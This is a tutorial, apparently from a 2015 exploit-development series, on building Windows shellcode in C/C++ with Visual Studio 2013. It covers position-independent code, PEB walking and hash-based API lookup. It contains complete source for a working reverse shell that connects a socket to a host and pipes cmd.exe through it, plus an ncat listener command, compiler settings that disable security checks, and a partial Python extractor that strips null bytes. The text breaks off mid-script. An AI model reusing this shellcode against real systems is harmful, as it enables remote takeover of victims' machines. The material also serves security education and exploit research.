


Introduction
A shellcode is a piece of code which is sent as payload by an exploit, is injected in the vulnerable application and is executed. A shellcode must be position independent, i.e. it must work no matter its position in memory and shouldn’t contain null bytes, because the shellcode is usually copied by functions like strcpy() which stop copying when they encounter a null byte. If a shellcode should contain a null byte, those functions would copy that shellcode only up to the first null byte and thus the shellcode would be incomplete.
Shellcode is usually written directly in assembly, but this doesn’t need to be the case. In this section, we’ll develop shellcode in C/C++ using Visual Studio 2013. The benefits are evident:
- shorter development times
- intellisense
- ease of debugging
We will use VS 2013 to produce an executable file with our shellcode and then we will extract and fix (i.e. remove the null bytes) the shellcode with a Python script.
C/C++ code
Use only stack variables
To write position independent code in C/C++ we must only use variables allocated on the stack. This means that we can’t write
char *v = new char[100];
because that array would be allocated on the heap. More important, this would try to call the new operator function from msvcr120.dll using an absolute address:
00191000 6A 64 push 64h 00191002 FF 15 90 20 19 00 call dword ptr ds:[192090h]
The location 192090h contains the address of the function.
If we want to call a function imported from a library, we must do so directly, without relying on import tables and the Windows loader.
Another problem is that the new operator probably requires some kind of initialization performed by the runtime component of the C/C++ language. We don’t want to include all that in our shellcode.
We can’t use global variables either:
int x;
int main() {
x = 12;
}
The assignment above (if not optimized out), produces
008E1C7E C7 05 30 91 8E 00 0C 00 00 00 mov dword ptr ds:[8E9130h],0Ch
where 8E9130h is the absolute address of the variable x.
Strings pose a problem. If we write
char str[] = "I'm a string";
printf(str);
the string will be put into the section .rdata of the executable and will be referenced with an absolute address. You must not use printf in your shellcode: this is just an example to see how str is referenced. Here’s the asm code:
00A71006 8D 45 F0 lea eax,[str] 00A71009 56 push esi 00A7100A 57 push edi 00A7100B BE 00 21 A7 00 mov esi,0A72100h 00A71010 8D 7D F0 lea edi,[str] 00A71013 50 push eax 00A71014 A5 movs dword ptr es:[edi],dword ptr [esi] 00A71015 A5 movs dword ptr es:[edi],dword ptr [esi] 00A71016 A5 movs dword ptr es:[edi],dword ptr [esi] 00A71017 A4 movs byte ptr es:[edi],byte ptr [esi] 00A71018 FF 15 90 20 A7 00 call dword ptr ds:[0A72090h]
As you can see, the string, located at the address A72100h in the .rdata section, is copied onto the stack (str points to the stack) through movsd and movsb. Note that A72100h is an absolute address. This code is definitely not position independent.
If we write
char *str = "I'm a string";
printf(str);
the string is still put into the .rdata section, but it’s not copied onto the stack:
00A31000 68 00 21 A3 00 push 0A32100h 00A31005 FF 15 90 20 A3 00 call dword ptr ds:[0A32090h]
The absolute position of the string in .rdata is A32100h.
How can we makes this code position independent?
The simpler (partial) solution is rather cumbersome:
char str[] = { 'I', '\'', 'm', ' ', 'a', ' ', 's', 't', 'r', 'i', 'n', 'g', '\0' };
printf(str);
Here’s the asm code:
012E1006 8D 45 F0 lea eax,[str] 012E1009 C7 45 F0 49 27 6D 20 mov dword ptr [str],206D2749h 012E1010 50 push eax 012E1011 C7 45 F4 61 20 73 74 mov dword ptr [ebp-0Ch],74732061h 012E1018 C7 45 F8 72 69 6E 67 mov dword ptr [ebp-8],676E6972h 012E101F C6 45 FC 00 mov byte ptr [ebp-4],0 012E1023 FF 15 90 20 2E 01 call dword ptr ds:[12E2090h]
Except for the call to printf, this code is position independent because portions of the string are coded directly in the source operands of the mov instructions. Once the string has been built on the stack, it can be used.
Unfortunately, when the string is longer, this method doesn’t work anymore. In fact, the code
char str[] = { 'I', '\'', 'm', ' ', 'a', ' ', 'v', 'e', 'r', 'y', ' ', 'l', 'o', 'n', 'g', ' ', 's', 't', 'r', 'i', 'n', 'g', '\0' };
printf(str);
produces
013E1006 66 0F 6F 05 00 21 3E 01 movdqa xmm0,xmmword ptr ds:[13E2100h] 013E100E 8D 45 E8 lea eax,[str] 013E1011 50 push eax 013E1012 F3 0F 7F 45 E8 movdqu xmmword ptr [str],xmm0 013E1017 C7 45 F8 73 74 72 69 mov dword ptr [ebp-8],69727473h 013E101E 66 C7 45 FC 6E 67 mov word ptr [ebp-4],676Eh 013E1024 C6 45 FE 00 mov byte ptr [ebp-2],0 013E1028 FF 15 90 20 3E 01 call dword ptr ds:[13E2090h]
As you can see, part of the string is located in the .rdata section at the address 13E2100h, while other parts of the string are encoded in the source operands of the mov instructions like before.
The solution I came up with is to allow code like
char *str = "I'm a very long string";
and fix the shellcode with a Python script. That script needs to extract the referenced strings from the .rdata section, put them into the shellcode and fix the relocations. We’ll see how soon.
Don’t call Windows API directly
We can’t write
WaitForSingleObject(procInfo.hProcess, INFINITE);
in our C/C++ code because “WaitForSingleObject” needs to be imported from kernel32.dll.
The process of importing a function from a library is rather complex. In a nutshell, the PE file contains an import table and an import address table (IAT). The import table contains information about which functions to import from which libraries. The IAT is compiled by the Windows loader when the executable is loaded and contains the addresses of the imported functions. The code of the executable call the imported functions with a level of indirection. For example:
001D100B FF 15 94 20 1D 00 call dword ptr ds:[1D2094h]
The address 1D2094h is the location of the entry (in the IAT) which contains the address of the function MessageBoxA. This level of indirection is useful because the call above doesn’t need to be fixed (unless the executable is relocated). The only thing the Windows loader needs to fix is the dword at 1D2094h, which is the address of the MessageBoxA function.
The solution is to get the addresses of the Windows functions directly from the in-memory data structures of Windows. We’ll see how this is done later.
Install VS 2013 CTP
First of all, download the Visual C++ Compiler November 2013 CTP from here and install it.
Create a New Project
Go to File→New→Project…, select Installed→Templates→Visual C++→Win32→Win32 Console Application, choose a name for the project (I chose shellcode) and hit OK.
Go to Project→<project name> properties and a new dialog will appear. Apply the changes to all configurations (Release and Debug) by setting Configuration (top left of the dialog) to All Configurations. Then, expand Configuration Properties and under General modify Platform Toolset so that it says Visual C++ Compiler Nov 2013 CTP (CTP_Nov2013). This way you’ll be able to use some features of C++11 and C++14 like static_assert.
Example of Shellcode
Here’s the code for a simple reverse shell (definition). Add a file named shellcode.cpp to the project and copy this code in it (or just download it). Don’t try to understand all the code right now. We’ll discuss it at length.
// Simple reverse shell shellcode by Massimiliano Tomassoli (2015)
// NOTE: Compiled on Visual Studio 2013 + "Visual C++ Compiler November 2013 CTP".
#include <WinSock2.h> // must preceed #include <windows.h>
#include <WS2tcpip.h>
#include <windows.h>
#include <winnt.h>
#include <winternl.h>
#include <stddef.h>
#include <stdio.h>
#define htons(A) ((((WORD)(A) & 0xff00) >> 8) | (((WORD)(A) & 0x00ff) << 8))
_inline PEB *getPEB() {
PEB *p;
__asm {
mov eax, fs:[30h]
mov p, eax
}
return p;
}
DWORD getHash(const char *str) {
DWORD h = 0;
while (*str) {
h = (h >> 13) | (h << (32 - 13)); // ROR h, 13
h += *str >= 'a' ? *str - 32 : *str; // convert the character to uppercase
str++;
}
return h;
}
DWORD getFunctionHash(const char *moduleName, const char *functionName) {
return getHash(moduleName) + getHash(functionName);
}
LDR_DATA_TABLE_ENTRY *getDataTableEntry(const LIST_ENTRY *ptr) {
int list_entry_offset = offsetof(LDR_DATA_TABLE_ENTRY, InMemoryOrderLinks);
return (LDR_DATA_TABLE_ENTRY *)((BYTE *)ptr - list_entry_offset);
}
// NOTE: This function doesn't work with forwarders. For instance, kernel32.ExitThread forwards to
// ntdll.RtlExitUserThread. The solution is to follow the forwards manually.
PVOID getProcAddrByHash(DWORD hash) {
PEB *peb = getPEB();
LIST_ENTRY *first = peb->Ldr->InMemoryOrderModuleList.Flink;
LIST_ENTRY *ptr = first;
do { // for each module
LDR_DATA_TABLE_ENTRY *dte = getDataTableEntry(ptr);
ptr = ptr->Flink;
BYTE *baseAddress = (BYTE *)dte->DllBase;
if (!baseAddress) // invalid module(???)
continue;
IMAGE_DOS_HEADER *dosHeader = (IMAGE_DOS_HEADER *)baseAddress;
IMAGE_NT_HEADERS *ntHeaders = (IMAGE_NT_HEADERS *)(baseAddress + dosHeader->e_lfanew);
DWORD iedRVA = ntHeaders->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress;
if (!iedRVA) // Export Directory not present
continue;
IMAGE_EXPORT_DIRECTORY *ied = (IMAGE_EXPORT_DIRECTORY *)(baseAddress + iedRVA);
char *moduleName = (char *)(baseAddress + ied->Name);
DWORD moduleHash = getHash(moduleName);
// The arrays pointed to by AddressOfNames and AddressOfNameOrdinals run in parallel, i.e. the i-th
// element of both arrays refer to the same function. The first array specifies the name whereas
// the second the ordinal. This ordinal can then be used as an index in the array pointed to by
// AddressOfFunctions to find the entry point of the function.
DWORD *nameRVAs = (DWORD *)(baseAddress + ied->AddressOfNames);
for (DWORD i = 0; i < ied->NumberOfNames; ++i) {
char *functionName = (char *)(baseAddress + nameRVAs[i]);
if (hash == moduleHash + getHash(functionName)) {
WORD ordinal = ((WORD *)(baseAddress + ied->AddressOfNameOrdinals))[i];
DWORD functionRVA = ((DWORD *)(baseAddress + ied->AddressOfFunctions))[ordinal];
return baseAddress + functionRVA;
}
}
} while (ptr != first);
return NULL; // address not found
}
#define HASH_LoadLibraryA 0xf8b7108d
#define HASH_WSAStartup 0x2ddcd540
#define HASH_WSACleanup 0x0b9d13bc
#define HASH_WSASocketA 0x9fd4f16f
#define HASH_WSAConnect 0xa50da182
#define HASH_CreateProcessA 0x231cbe70
#define HASH_inet_ntoa 0x1b73fed1
#define HASH_inet_addr 0x011bfae2
#define HASH_getaddrinfo 0xdc2953c9
#define HASH_getnameinfo 0x5c1c856e
#define HASH_ExitThread 0x4b3153e0
#define HASH_WaitForSingleObject 0xca8e9498
#define DefineFuncPtr(name) decltype(name) *My_##name = (decltype(name) *)getProcAddrByHash(HASH_##name)
int entryPoint() {
// printf("0x%08x\n", getFunctionHash("kernel32.dll", "WaitForSingleObject"));
// return 0;
// NOTE: we should call WSACleanup() and freeaddrinfo() (after getaddrinfo()), but
// they're not strictly needed.
DefineFuncPtr(LoadLibraryA);
My_LoadLibraryA("ws2_32.dll");
DefineFuncPtr(WSAStartup);
DefineFuncPtr(WSASocketA);
DefineFuncPtr(WSAConnect);
DefineFuncPtr(CreateProcessA);
DefineFuncPtr(inet_ntoa);
DefineFuncPtr(inet_addr);
DefineFuncPtr(getaddrinfo);
DefineFuncPtr(getnameinfo);
DefineFuncPtr(ExitThread);
DefineFuncPtr(WaitForSingleObject);
const char *hostName = "127.0.0.1";
const int hostPort = 123;
WSADATA wsaData;
if (My_WSAStartup(MAKEWORD(2, 2), &wsaData))
goto __end; // error
SOCKET sock = My_WSASocketA(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);
if (sock == INVALID_SOCKET)
goto __end;
addrinfo *result;
if (My_getaddrinfo(hostName, NULL, NULL, &result))
goto __end;
char ip_addr[16];
My_getnameinfo(result->ai_addr, result->ai_addrlen, ip_addr, sizeof(ip_addr), NULL, 0, NI_NUMERICHOST);
SOCKADDR_IN remoteAddr;
remoteAddr.sin_family = AF_INET;
remoteAddr.sin_port = htons(hostPort);
remoteAddr.sin_addr.s_addr = My_inet_addr(ip_addr);
if (My_WSAConnect(sock, (SOCKADDR *)&remoteAddr, sizeof(remoteAddr), NULL, NULL, NULL, NULL))
goto __end;
STARTUPINFOA sInfo;
PROCESS_INFORMATION procInfo;
SecureZeroMemory(&sInfo, sizeof(sInfo)); // avoids a call to _memset
sInfo.cb = sizeof(sInfo);
sInfo.dwFlags = STARTF_USESTDHANDLES;
sInfo.hStdInput = sInfo.hStdOutput = sInfo.hStdError = (HANDLE)sock;
My_CreateProcessA(NULL, "cmd.exe", NULL, NULL, TRUE, 0, NULL, NULL, &sInfo, &procInfo);
// Waits for the process to finish.
My_WaitForSingleObject(procInfo.hProcess, INFINITE);
__end:
My_ExitThread(0);
return 0;
}
int main() {
return entryPoint();
}
Compiler Configuration
Go to Project→<project name> properties, expand Configuration Properties and then C/C++. Apply the changes to the Release Configuration.
Here are the settings you need to change:
- General:
- SDL Checks: No (/sdl-)
Maybe this is not needed, but I disabled them anyway.
- SDL Checks: No (/sdl-)
- Optimization:
- Optimization: Minimize Size (/O1)
This is very important! We want a shellcode as small as possible. - Inline Function Expansion: Only __inline (/Ob1)
If a function A calls a function B and B is inlined, then the call to B is replaced with the code of B itself. With this setting we tell VS 2013 to inline only functions decorated with _inline.
This is critical! main() just calls the entryPoint function of our shellcode. If the entryPoint function is short, it might be inlined into main(). This would be disastrous because main() wouldn’t indicate the end of our shellcode anymore (in fact, it would contain part of it). We’ll see why this is important later. - Enable Intrinsic Functions: Yes (/Oi)
I don’t know if this should be disabled. - Favor Size Or Speed: Favor small code (/Os)
- Whole Program Optimization: Yes (/GL)
- Optimization: Minimize Size (/O1)
- Code Generation:
- Security Check: Disable Security Check (/GS-)
We don’t need any security checks! - Enable Function-Level linking: Yes (/Gy)
- Security Check: Disable Security Check (/GS-)
Linker Configuration
Go to Project→<project name> properties, expand Configuration Properties and then Linker. Apply the changes to the Release Configuration. Here are the settings you need to change:
- General:
- Enable Incremental Linking: No (/INCREMENTAL:NO)
- Debugging:
- Generate Map File: Yes (/MAP)
Tells the linker to generate a map file containing the structure of the EXE. - Map File Name: mapfile
This is the name of the map file. Choose whatever name you like.
- Generate Map File: Yes (/MAP)
- Optimization:
- References: Yes (/OPT:REF)
This is very important to generate a small shellcode because eliminates functions and data that are never referenced by the code. - Enable COMDAT Folding: Yes (/OPT:ICF)
- Function Order: function_order.txt
This reads a file called function_order.txt which specifies the order in which the functions must appear in the code section. We want the function entryPoint to be the first function in the code section so my function_order.txt contains just a single line with the word ?entryPoint@@YAHXZ. You can find the names of the functions in the map file.
- References: Yes (/OPT:REF)
getProcAddrByHash
This function returns the address of a function exported by a module (.exe or .dll) present in memory, given the hash associated with the module and the function. It’s certainly possible to find functions by name, but that would waste considerable space because those names should be included in the shellcode. On the other hand, a hash is only 4 bytes. Since we don’t use two hashes (one for the module and the other for the function), getProcAddrByHash needs to consider all the modules loaded in memory.
The hash for MessageBoxA, exported by user32.dll, can be computed as follows:
DWORD hash = getFunctionHash("user32.dll", "MessageBoxA");
where hash is the sum of getHash(“user32.dll”) and getHash(“MessageBoxA”). The implementation of getHash is very simple:
DWORD getHash(const char *str) {
DWORD h = 0;
while (*str) {
h = (h >> 13) | (h << (32 - 13)); // ROR h, 13
h += *str >= 'a' ? *str - 32 : *str; // convert the character to uppercase
str++;
}
return h;
}
As you can see, the hash is case-insensitive. This is important because in some versions of Windows the names in memory are all uppercase.
First, getProcAddrByHash gets the address of the TEB (Thread Environment Block):
PEB *peb = getPEB();
where
_inline PEB *getPEB() {
PEB *p;
__asm {
mov eax, fs:[30h]
mov p, eax
}
return p;
}
The selector fs is associated with a segment which starts at the address of the TEB. At offset 30h, the TEB contains a pointer to the PEB (Process Environment Block). We can see this in WinDbg:
0:000> dt _TEB @$teb
ntdll!_TEB
+0x000 NtTib : _NT_TIB
+0x01c EnvironmentPointer : (null)
+0x020 ClientId : _CLIENT_ID
+0x028 ActiveRpcHandle : (null)
+0x02c ThreadLocalStoragePointer : 0x7efdd02c Void
+0x030 ProcessEnvironmentBlock : 0x7efde000 _PEB
+0x034 LastErrorValue : 0
+0x038 CountOfOwnedCriticalSections : 0
+0x03c CsrClientThread : (null)
<snip>The PEB, as the name implies, is associated with the current process and contains, among other things, information about the modules loaded into the process address space.
Here’s getProcAddrByHash again:
PVOID getProcAddrByHash(DWORD hash) {
PEB *peb = getPEB();
LIST_ENTRY *first = peb->Ldr->InMemoryOrderModuleList.Flink;
LIST_ENTRY *ptr = first;
do { // for each module
LDR_DATA_TABLE_ENTRY *dte = getDataTableEntry(ptr);
ptr = ptr->Flink;
.
.
.
} while (ptr != first);
return NULL; // address not found
}
Here’s part of the PEB:
0:000> dt _PEB @$peb
ntdll!_PEB
+0x000 InheritedAddressSpace : 0 ''
+0x001 ReadImageFileExecOptions : 0 ''
+0x002 BeingDebugged : 0x1 ''
+0x003 BitField : 0x8 ''
+0x003 ImageUsesLargePages : 0y0
+0x003 IsProtectedProcess : 0y0
+0x003 IsLegacyProcess : 0y0
+0x003 IsImageDynamicallyRelocated : 0y1
+0x003 SkipPatchingUser32Forwarders : 0y0
+0x003 SpareBits : 0y000
+0x004 Mutant : 0xffffffff Void
+0x008 ImageBaseAddress : 0x00060000 Void
+0x00c Ldr : 0x76fd0200 _PEB_LDR_DATA
+0x010 ProcessParameters : 0x00681718 _RTL_USER_PROCESS_PARAMETERS
+0x014 SubSystemData : (null)
+0x018 ProcessHeap : 0x00680000 Void
<snip>At offset 0Ch, there is a field called Ldr which points to a PEB_LDR_DATA data structure. Let’s see that in WinDbg:
0:000> dt _PEB_LDR_DATA 0x76fd0200 ntdll!_PEB_LDR_DATA +0x000 Length : 0x30 +0x004 Initialized : 0x1 '' +0x008 SsHandle : (null) +0x00c InLoadOrderModuleList : _LIST_ENTRY [ 0x683080 - 0x6862c0 ] +0x014 InMemoryOrderModuleList : _LIST_ENTRY [ 0x683088 - 0x6862c8 ] +0x01c InInitializationOrderModuleList : _LIST_ENTRY [ 0x683120 - 0x6862d0 ] +0x024 EntryInProgress : (null) +0x028 ShutdownInProgress : 0 '' +0x02c ShutdownThreadId : (null)
InMemoryOrderModuleList is a doubly-linked list of LDR_DATA_TABLE_ENTRY structures associated with the modules loaded in the current process’s address space. To be precise, InMemoryOrderModuleList is a LIST_ENTRY, which contains two fields:
0:000> dt _LIST_ENTRY ntdll!_LIST_ENTRY +0x000 Flink : Ptr32 _LIST_ENTRY +0x004 Blink : Ptr32 _LIST_ENTRY
Flink means forward link and Blink backward link. Flink points to the LDR_DATA_TABLE_ENTRY of the first module. Well, not exactly: Flink points to a LIST_ENTRY structure contained in the structure LDR_DATA_TABLE_ENTRY.
Let’s see how LDR_DATA_TABLE_ENTRY is defined:
0:000> dt _LDR_DATA_TABLE_ENTRY ntdll!_LDR_DATA_TABLE_ENTRY +0x000 InLoadOrderLinks : _LIST_ENTRY +0x008 InMemoryOrderLinks : _LIST_ENTRY +0x010 InInitializationOrderLinks : _LIST_ENTRY +0x018 DllBase : Ptr32 Void +0x01c EntryPoint : Ptr32 Void +0x020 SizeOfImage : Uint4B +0x024 FullDllName : _UNICODE_STRING +0x02c BaseDllName : _UNICODE_STRING +0x034 Flags : Uint4B +0x038 LoadCount : Uint2B +0x03a TlsIndex : Uint2B +0x03c HashLinks : _LIST_ENTRY +0x03c SectionPointer : Ptr32 Void +0x040 CheckSum : Uint4B +0x044 TimeDateStamp : Uint4B +0x044 LoadedImports : Ptr32 Void +0x048 EntryPointActivationContext : Ptr32 _ACTIVATION_CONTEXT +0x04c PatchInformation : Ptr32 Void +0x050 ForwarderLinks : _LIST_ENTRY +0x058 ServiceTagLinks : _LIST_ENTRY +0x060 StaticLinks : _LIST_ENTRY +0x068 ContextInformation : Ptr32 Void +0x06c OriginalBase : Uint4B +0x070 LoadTime : _LARGE_INTEGER
InMemoryOrderModuleList.Flink points to _LDR_DATA_TABLE_ENTRY.InMemoryOrderLinks which is at offset 8, so we must subtract 8 to get the address of _LDR_DATA_TABLE_ENTRY.
First, let’s get the Flink pointer:
+0x00c InLoadOrderModuleList : _LIST_ENTRY [ 0x683080 - 0x6862c0 ]
Its value is 0x683080, so the _LDR_DATA_TABLE_ENTRY structure is at address 0x683080 – 8 = 0x683078:
0:000> dt _LDR_DATA_TABLE_ENTRY 683078 ntdll!_LDR_DATA_TABLE_ENTRY +0x000 InLoadOrderLinks : _LIST_ENTRY [ 0x359469e5 - 0x1800eeb1 ] +0x008 InMemoryOrderLinks : _LIST_ENTRY [ 0x683110 - 0x76fd020c ] +0x010 InInitializationOrderLinks : _LIST_ENTRY [ 0x683118 - 0x76fd0214 ] +0x018 DllBase : (null) +0x01c EntryPoint : (null) +0x020 SizeOfImage : 0x60000 +0x024 FullDllName : _UNICODE_STRING "蒮ｍ쿟ﾹ엘ﾬ膪ｎ???" +0x02c BaseDllName : _UNICODE_STRING "C:\Windows\SysWOW64\calc.exe" +0x034 Flags : 0x120010 +0x038 LoadCount : 0x2034 +0x03a TlsIndex : 0x68 +0x03c HashLinks : _LIST_ENTRY [ 0x4000 - 0xffff ] +0x03c SectionPointer : 0x00004000 Void +0x040 CheckSum : 0xffff +0x044 TimeDateStamp : 0x6841b4 +0x044 LoadedImports : 0x006841b4 Void +0x048 EntryPointActivationContext : 0x76fd4908 _ACTIVATION_CONTEXT +0x04c PatchInformation : 0x4ce7979d Void +0x050 ForwarderLinks : _LIST_ENTRY [ 0x0 - 0x0 ] +0x058 ServiceTagLinks : _LIST_ENTRY [ 0x6830d0 - 0x6830d0 ] +0x060 StaticLinks : _LIST_ENTRY [ 0x6830d8 - 0x6830d8 ] +0x068 ContextInformation : 0x00686418 Void +0x06c OriginalBase : 0x6851a8 +0x070 LoadTime : _LARGE_INTEGER 0x76f0c9d0
As you can see, I’m debugging calc.exe in WinDbg! That’s right: the first module is the executable itself. The important field is DLLBase (c). Given the base address of the module, we can analyze the PE file loaded in memory and get all kinds of information, like the addresses of the exported functions.
That’s exactly what we do in getProcAddrByHash:
.
.
.
BYTE *baseAddress = (BYTE *)dte->DllBase;
if (!baseAddress) // invalid module(???)
continue;
IMAGE_DOS_HEADER *dosHeader = (IMAGE_DOS_HEADER *)baseAddress;
IMAGE_NT_HEADERS *ntHeaders = (IMAGE_NT_HEADERS *)(baseAddress + dosHeader->e_lfanew);
DWORD iedRVA = ntHeaders->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress;
if (!iedRVA) // Export Directory not present
continue;
IMAGE_EXPORT_DIRECTORY *ied = (IMAGE_EXPORT_DIRECTORY *)(baseAddress + iedRVA);
char *moduleName = (char *)(baseAddress + ied->Name);
DWORD moduleHash = getHash(moduleName);
// The arrays pointed to by AddressOfNames and AddressOfNameOrdinals run in parallel, i.e. the i-th
// element of both arrays refer to the same function. The first array specifies the name whereas
// the second the ordinal. This ordinal can then be used as an index in the array pointed to by
// AddressOfFunctions to find the entry point of the function.
DWORD *nameRVAs = (DWORD *)(baseAddress + ied->AddressOfNames);
for (DWORD i = 0; i < ied->NumberOfNames; ++i) {
char *functionName = (char *)(baseAddress + nameRVAs[i]);
if (hash == moduleHash + getHash(functionName)) {
WORD ordinal = ((WORD *)(baseAddress + ied->AddressOfNameOrdinals))[i];
DWORD functionRVA = ((DWORD *)(baseAddress + ied->AddressOfFunctions))[ordinal];
return baseAddress + functionRVA;
}
}
.
.
.
To understand this piece of code you’ll need to have a look at the PE file format specification. I won’t go into too many details. One important thing you should know is that many (if not all) the addresses in the PE file structures are RVA (Relative Virtual Addresses), i.e. addresses relative to the base address of the PE module (DllBase). For example, if the RVA is 100h and DllBase is 400000h, then the RVA points to data at the address 400000h + 100h = 400100h.
The module starts with the so called DOS_HEADER which contains a RVA (e_lfanew) to the NT_HEADERS which are the FILE_HEADER and the OPTIONAL_HEADER. The OPTIONAL_HEADER contains an array called DataDirectory which points to various “directories” of the PE module. We are interested in the Export Directory.
The C structure associated with the Export Directory is defined as follows:
typedef struct _IMAGE_EXPORT_DIRECTORY {
DWORD Characteristics;
DWORD TimeDateStamp;
WORD MajorVersion;
WORD MinorVersion;
DWORD Name;
DWORD Base;
DWORD NumberOfFunctions;
DWORD NumberOfNames;
DWORD AddressOfFunctions; // RVA from base of image
DWORD AddressOfNames; // RVA from base of image
DWORD AddressOfNameOrdinals; // RVA from base of image
} IMAGE_EXPORT_DIRECTORY, *PIMAGE_EXPORT_DIRECTORY;
The field Name is a RVA to a string containing the name of the module. Then there are 5 important fields:
- NumberOfFunctions:
number of elements in AddressOfFunctions. - NumberOfNames:
number of elements in AddressOfNames. - AddressOfFunctions:
RVA to an array of RVAs (DWORDs) to the entrypoints of the exported functions. - AddressOfNames:
RVA to an array of RVAs (DWORDs) to the names of the exported functions. - AddressOfNameOrdinals:
RVA to an array of ordinals (WORDs) associated with the exported functions.
As the comments in the C/C++ code say, the arrays pointed to by AddressOfNames and AddressOfNameOrdinals run in parallel:

While the first two arrays run in parallel, the third doesn’t and the ordinals taken from AddressOfNameOrdinals are indices in the array AddressOfFunctions.
{kind=link}
So the idea is to first find the right name in AddressOfNames, then get the corresponding ordinal in AddressOfNameOrdinals (at the same position) and finally use the ordinal as index in AddressOfFunctions to get the RVA of the corresponding exported function.
DefineFuncPtr
DefineFuncPtr is a handy macro which helps define a pointer to an imported function. Here’s an example:
#define HASH_WSAStartup 0x2ddcd540
#define DefineFuncPtr(name) decltype(name) *My_##name = (decltype(name) *)getProcAddrByHash(HASH_##name)
DefineFuncPtr(WSAStartup);
WSAStartup is a function imported from ws2_32.dll, so HASH_WSAStartup is computed this way:
DWORD hash = getFunctionHash("ws2_32.dll", "WSAStartup");
When the macro is expanded,
DefineFuncPtr(WSAStartup);
becomes
decltype(WSAStartup) *My_WSAStartup = (decltype(WSAStartup) *)getProcAddrByHash(HASH_WSAStartup)
where decltype(WSAStartup) is the type of the function WSAStartup. This way we don’t need to redefine the function prototype. Note that decltype was introduced in C++11.
Now we can call WSAStartup through My_WSAStartup and intellisense will work perfectly.
Note that before importing a function from a module, we need to make sure that that module is already loaded in memory. While kernel32.dll and ntdll.dll are always present (lucky for us), we can’t assume that other modules are. The easiest way to load a module is to use LoadLibrary:
DefineFuncPtr(LoadLibraryA);
My_LoadLibraryA("ws2_32.dll");
This works because LoadLibrary is imported from kernel32.dll that, as we said, is always present in memory.
We could also import GetProcAddress and use it to get the address of all the other function we need, but that would be wasteful because we would need to include the full names of the functions in the shellcode.
entryPoint
entryPoint is obviously the entry point of our shellcode and implements the reverse shell. First, we import all the functions we need and then we use them. The details are not important and I must say that the winsock API are very cumbersome to use.
In a nutshell:
- we create a socket,
- connect the socket to 127.0.0.1:123,
- create a process by executing cmd.exe,
- attach the socket to the standard input, output and error of the process,
- wait for the process to terminate,
- when the process has ended, we terminate the current thread.
Point 3 and 4 are performed at the same time with a call to CreateProcess. Thanks to 4), the attacker can listen on port 123 for a connection and then, once connected, can interact with cmd.exe running on the remote machine through the socket, i.e. the TCP connection.
To try this out, install ncat (download), run cmd.exe and at the prompt enter
ncat -lvp 123
This will start listening on port 123.
Then, back in Visual Studio 2013, select Release, build the project and run it.
Go back to ncat and you should see something like the following:
Microsoft Windows [Version 6.1.7601] Copyright (c) 2009 Microsoft Corporation. All rights reserved. C:\Users\Kiuhnm>ncat -lvp 123 Ncat: Version 6.47 ( http://nmap.org/ncat ) Ncat: Listening on :::123 Ncat: Listening on 0.0.0.0:123 Ncat: Connection from 127.0.0.1. Ncat: Connection from 127.0.0.1:4409. Microsoft Windows [Version 6.1.7601] Copyright (c) 2009 Microsoft Corporation. All rights reserved. C:\Users\Kiuhnm\documents\visual studio 2013\Projects\shellcode\shellcode>
Now you can type whatever command you want. To exit, type exit.
main
Thanks to the linker option
Function Order: function_order.txt
where the first and only line of function_order.txt is ?entryPoint@@YAHXZ, the function entryPoint will be positioned first in our shellcode. This is what we want.
It seems that the linker honors the order of the functions in the source code, so we could have put entryPoint before any other function, but I didn’t want to mess things up. The main function comes last in the source code so it’s linked at the end of our shellcode. This allows us to tell where the shellcode ends. We’ll see how in a moment when we talk about the map file.
Python script
Introduction
Now that the executable containing our shellcode is ready, we need a way to extract and fix the shellcode. This won’t be easy. I wrote a Python script that
- extracts the shellcode
- handles the relocations for the strings
- fixes the shellcode by removing null bytes
By the way, you can use whatever you like, but I like and use PyCharm (download).
The script weighs only 392 LOC, but it’s a little tricky so I’ll explain it in detail.
Here’s the code:
# Shellcode extractor by Massimiliano Tomassoli (2015)
import sys
import os
import datetime
import pefile
author = 'Massimiliano Tomassoli'
year = datetime.date.today().year
def dword_to_bytes(value):
return [value & 0xff, (value >> 8) & 0xff, (value >> 16) & 0xff, (value >> 24) & 0xff]
def bytes_to_dword(bytes):
return (bytes[0] & 0xff) | ((bytes[1] & 0xff) << 8) | \
((bytes[2] & 0xff) << 16) | ((bytes[3] & 0xff) << 24)
def get_cstring(data, offset):
'''
Extracts a C string (i.e. null-terminated string) from data starting from offset.
'''
pos = data.find('\0', offset)
if pos == -1:
return None
return data[offset:pos+1]
def get_shellcode_len(map_file):
'''
Gets the length of the shellcode by analyzing map_file (map produced by VS 2013)
'''
try:
with open(map_file, 'r') as f:
lib_object = None
shellcode_len = None
for line in f:
parts = line.split()
if lib_object is not None:
if parts[-1] == lib_object:
raise Exception('_main is not the last function of %s' % lib_object)
else:
break
elif (len(parts) > 2 and parts[1] == '_main'):
# Format:
# 0001:00000274 _main 00401274 f shellcode.obj
shellcode_len = int(parts[0].split(':')[1], 16)
lib_object = parts[-1]
if shellcode_len is None:
raise Exception('Cannot determine shellcode length')
except IOError:
print('[!] get_shellcode_len: Cannot open "%s"' % map_file)
return None
except Exception as e:
print('[!] get_shellcode_len: %s' % e.message)
return None
return shellcode_len
def get_shellcode_and_relocs(exe_file, shellcode_len):
'''
